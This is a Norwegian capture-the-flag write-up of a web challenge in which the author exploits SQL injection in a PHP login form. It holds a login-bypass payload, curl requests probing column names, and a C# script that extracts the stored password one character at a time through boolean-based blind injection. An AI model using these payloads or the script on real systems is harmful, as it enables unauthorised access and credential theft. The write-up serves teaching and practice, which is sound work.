







# Kul webapp #2

> Kul webapp #2
>
> Da er endelig login system på plass! Registrering kommer snart!
> 
> ctf.uiactf.no:3005



---

Nettsiden ser slik ut:



Det skal nå være mulig å logge inn på siden i motsetning til `Kul webapp #1`-oppgaven.

Det er også en `mailto:`-link med en epostadresse som kanskje er et hint?

Vi klikker på `Login` og blir presentert med følgende:



La oss bruke epostadressen ovenfra; `admin@minkulewebapp.finnesikke` og en `SQLi`-payload for å sjekke om dette kan være en `SQLi`-oppgave. Vi bruker `'` som passord og klikker `Logg inn`:



*Feilmelding:*
```bash
Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1 unrecognized token: "''';" in /usr/src/myapp/login.php:14 Stack trace: #0 /usr/src/myapp/login.php(14): PDO->query('SELECT * FROM b...') #1 /usr/src/myapp/index.php(23): include('/usr/src/myapp/...') #2 {main} thrown in /usr/src/myapp/login.php on line 14
```

Her kan det se ut som om det er noe krøll med måten databasen brukes og at applikasjonen er sårbar for `SQL-injection`.

Ved å endre payloaden vår for `Passord`-feltet til `' OR 1=1 --` klarer vi å omgå passordsjekken og får logget inn i aplikasjonen:



Legg merke til `Logout`-lenken oppe i venstre hjørne. Vi er nå logget inn i aplikasjonen. Etter å ha sett litt rundt i applikasjonen og testet litt rundt `?page=`-variabelen for å se etter en `LFI`-sårbarhet, viser det seg at applikasjonen er en del sikrere enn tidligere. Eller?

La oss gå tilbake til `SQLi`-sårbarheten. Kanskje vi kan finne en måte å lese ut data fra databasen? I dette tilfellet er det ingen databasedata som presenteres i applikasjonen. Det gjør det vanskeligere å lekke dataene. Hvordan skal vi få eksfiltrert dem?

La oss se nærmere på hva som skjer når vi gir applikasjonen `'` som passord igjen:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord='" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
<b>Fatal error</b>:  Uncaught PDOException: SQLSTATE[HY000]: General error: 1 unrecognized token: &quot;''';&quot; in /usr/src/myapp/login.php:14
```

Her bruker jeg `curl` og `grep` for å filtrere bort en del unødvendig informasjon. Men vi ser at applikasjonen feiler. La oss nå prøve med et passord som fører til en gyldig `SQL`-query, men som **IKKE** omgår innloggingen. Jeg prøver med `test` som passord:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=test" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
<p class="text-danger">Feil brukernavn eller passord</p><main role="main" class="inner cover">
```

Og så prøver vi en siste gang, denne gang med en gyldig `SQL`-query, som omgår innloggingen. Jeg prøver som tidligere med `' OR 1=1 --` som passord:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR 1=1 --" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
```

Denne gang ser vi ikke strengen `Feil brukernavn eller passord`. Dette er vesentlig. Vi vet nå, at så lenge vi kjører gyldige spørringer, så kan vi bruke strengen `Feil brukernavn eller passord` som indikasjon på om spørringen vår er sann eller usann.

Dette heter `Boolean based Blind SQL Injection (SQLi)` som betyr:

> Boolean-based SQL injection is a technique which relies on sending an SQL query to the database. This injection technique forces the application to return a different result, depending on the query. Depending on the boolean result (TRUE or FALSE), the content within the HTTP response will change, or remain the same. The result allows an attacker to judge whether the payload used returns true or false, even though no data from the database are recovered.

*Hentet fra: `https://beaglesecurity.com/blog/vulnerability/boolean-based-blind-sql-injection.html`*.

La oss se hvordan vi kan bruke denne teknikken til å eksfiltrere data.

På dette tidspunktet må vi finne ut hva kolonnene i tabellen vår heter. Dette er det som regel mulig å finne ut ved å bruke teknikken som jeg nå skal demonstrere. Da kan man spørre (kjøre SQL) mot "interne" tabeller i database-serveren. Disse spørringene gjøres mot databaser/tabeller/kolonner med kjente navn basert på hvilken type database vi jobber med.

I dette tilfellet finner vi kolonnenavnene ved kvalifisert gjetning i stedet.

Payload: `' OR denne_kolonnen_eksisterer_ikke --`

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR denne_kolonnen_eksisterer_ikke --" | grep -E 'Notice|Fata
l|Feil brukernavn eller passord'

<b>Fatal error</b>:  Uncaught PDOException: SQLSTATE[HY000]: General error: 1 no such column: denne_kolonnen_eksisterer_ikke in /usr/src/myapp/login.php:14
```

Vi ser at kolonnen `denne_kolonnen_eksisterer_ikke` ikke eksisterer. Dette vet vi fordi vi får følgende feilmelding: `General error: 1 no such column: denne_kolonnen_eksisterer_ikke`.

La oss sjekke følgende kolonnenavn; `id`, `epost` og `passord`:

Payload: `' OR id --`

Ingen feilmeldinger i spørringen under; kolonnen `id` eksisterer:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR id --" | grep -E 'Notice|Fatal|Feil brukernavn eller pass
ord'

<p class="text-danger">Feil brukernavn eller passord</p><main role="main" class="inner cover">
```

Payload: `' OR epost --`

Ingen feilmeldinger i spørringen under; kolonnen `epost` eksisterer:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR epost --" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<p class="text-danger">Feil brukernavn eller passord</p><main role="main" class="inner cover">
```

Payload: `' OR passord --`

Ingen feilmeldinger i spørringen under; kolonnen `passord` eksisterer:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR passord --" | grep -E 'Notice|Fatal|Feil brukernavn eller
 passord'

<p class="text-danger">Feil brukernavn eller passord</p><main role="main" class="inner cover">
```

## Eksfiltrering

Vi kan sjekke om `passord`-feltet matcher med wildcard (`%`) symbolet.

Payload: `' OR passord LIKE '%' --`

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR passord LIKE '%' --" | grep -E 'Notice|Fatal|Feil brukern
avn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
```

Resultatet indikerer `TRUE` (ingen `Feil brukernavn eller passord`-streng). Vi vet at `passord`-kolonnen finnes og matcher med `%`.

Hva med følgende payload:

Payload: `' OR passord LIKE 'X' --`

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR passord LIKE 'X' --" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
<p class="text-danger">Feil brukernavn eller passord</p><main role="main" class="inner cover">
```

Resultatet indikerer `FALSE` (vi ser `Feil brukernavn eller passord`-strengen). Vi vet at passordet **IKKE** er `X`.


Nå kan vi automatisere spørringene våre for å eksfiltrere `passord`-feltet. Vi prøver å sammenligne `passord` med en og en karakter i sammen med `%` helt til vi får et resultat som indikerer `TRUE`.

Eksempel på payloads:
- `' OR passord LIKE 'a%' --` (`FALSE`)
- `' OR passord LIKE 'b%' --` (`FALSE`)
- `' OR passord LIKE 'c%' --` (`TRUE`)
- `' OR passord LIKE 'd%' --` (`FALSE`)

Når vi får et `TRUE`-resultat kan vi bruke den aktuelle karakteren og utvide til neste karakter:

Eksempel på payloads:
- `' OR passord LIKE 'ca%' --` (`FALSE`)
- `' OR passord LIKE 'cb%' --` (`TRUE`)

Og så videre...

En siste kvalifisert gjetning før vi fortsetter. Vi forventer å finne et flagg i `passord`-kolonnen. La os sjekke om passordet matcher flaggformatet:


```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR passord LIKE 'UIACTF{%}' --" | grep -E 'Notice|Fatal|Feil
 brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
```


^ **TRUE**-resultat!

Dette ser veldig lovende ut. La oss skrive et skript:

*`solve.cs`*
```csharp
var url = "http://ctf.uiactf.no:3005/index.php?page=login.php";
var handler = new HttpClientHandler() { UseCookies = false };
var c = new HttpClient(handler);

var charsToTry = "{}!abcdefghijklmnopqrstuvwxyzæøå0123456789_";
var charsFound = "";
var charIndex = 0;

while (!charsFound.Any() || charsFound.Last() != '}')
{
    var currentChar = charsToTry[charIndex];
    
    var content = new FormUrlEncodedContent(new[]
    {
        new KeyValuePair<string, string>("epost", "admin@minkulewebapp.finnesikke"),
        new KeyValuePair<string, string>("login", "login"),
        new KeyValuePair<string, string>("passord", $"' OR passord LIKE '{charsFound}{currentChar}%' --"),
    });

    var r = await c.PostAsync(url, content);
    var s = await r.Content.ReadAsStringAsync();
    
    var querySuccess = !s.Contains("Feil brukernavn eller passord");
    
    if (querySuccess) {
        charIndex = 0;
        charsFound = charsFound + currentChar;
        Util.ClearResults();
        charsFound.Dump();
    } else {
        charIndex++;
    }
}
```

`charsToTry` inneholder alle karakterene vi tror vi vil kunne finne i kolonnen:

```csharp
var charsToTry = "{}!abcdefghijklmnopqrstuvwxyzæøå0123456789_";
```

Vi kjører spørringer helt til siste karakter i `charsFound` er `}`, som er slutten på flagget.

Vipps så ser vi flagget bygges opp sakte men sikkert forran øynene våre:



---

## Flagg

`uiactf{passord_i_klartekst_er_ikke_bra}`

Jeg husker ikke 100% om flagget gikk gjennom slik, eller om jeg endret noe på capitalization basert på formatet på tidligere flagg. Jeg tror muligens jeg sendte inn flagget som dette:

`UIACTF{Passord_i_klartekst_er_ikke_bra}`

### Solves

Jeg er ganske fornøyd med å være i godt selskap her.


